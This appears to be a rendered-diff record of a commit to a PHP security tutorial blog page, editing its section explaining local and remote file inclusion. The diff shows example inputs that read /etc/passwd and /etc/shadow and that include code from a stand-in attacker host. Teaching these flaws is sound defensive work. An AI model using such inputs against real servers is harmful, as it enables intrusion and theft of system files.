

Before and after one commit to 20kilograma/blog, a Jekyll site: the page built from php-sec.md, in a window 1280 px wide and 900 px high, scrolled down 8712 px. Shown: the whole window, without its empty margins (108-1168 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some web fonts are replaced; our own code applies the rules of GitHub Pages for plain Markdown files; before the commit the page ends 9555 px from its top, so only the background shows below that.

Commit message:
Update php-sec.md

```diff
--- a/php-sec.md
+++ b/php-sec.md
@@ -167,10 +167,10 @@ From that, you can create a very nice phishing attack, like <i>We are sorry, cou
 
 ## File Inclusions/Path Traversals
 
-Next on the list we have RFI/LFI and Path Traversals. File Inclusions are mostly found in PHP Applications, they are the result of using <code>include()</code> function incorrectly. People sometimes can't make the difference between those two similiar vulnerabilities, that's okay because here I'll try to explain it on some easy examples.
-Let's see now:
-The easiest way to explain it:
-When an attacker is exploiting RFI he uses a Remote File while on the other side LFI uses local files when they are attacking server, even the name of the vulnerability tells you that. While exploiting LFI you can get response from the local files on system, for example <code>/etc/passwd</code> or <code>/etc/shadow</code>.
+Next on the list are RFI/LFI and Path Traversals. File Inclusions are mostly found in PHP applications; they are the result of using <code>include()</code> function incorrectly. People sometimes can't make the difference between those two similar vulnerabilities (LFI and RFI). That's okay, because here I'll try to explain it with some easy examples.
+The easiest way to explain it:<br>
+When an attacker is exploiting RFI, he uses a remote file, while on the other side, LFI uses local files when they are attacking servers; even the name of the vulnerability tells you that. While exploiting LFI you can get response from the local system files, for example <code>/etc/passwd</code> or <code>/etc/shadow</code>.<br>
+<code>https://localhost/app.php?file=/etc/passwd</code>
 
 On the other hand while exploiting RFI you can upload file from remote server which in 99% of the times will result in RCE(Remote Code Execution). Nowadays it's very rare to see RFI in the wild because including files from remote location is disabled in PHP by default (<code>allow_url_include</code>).
 For example <code>https://localhost/app.php?file=http://attackers.website.com/somemaliciousfile</code>. You could execute malicious code from the <code>somemaliciousfile</code> file and use it for evil intention.
```
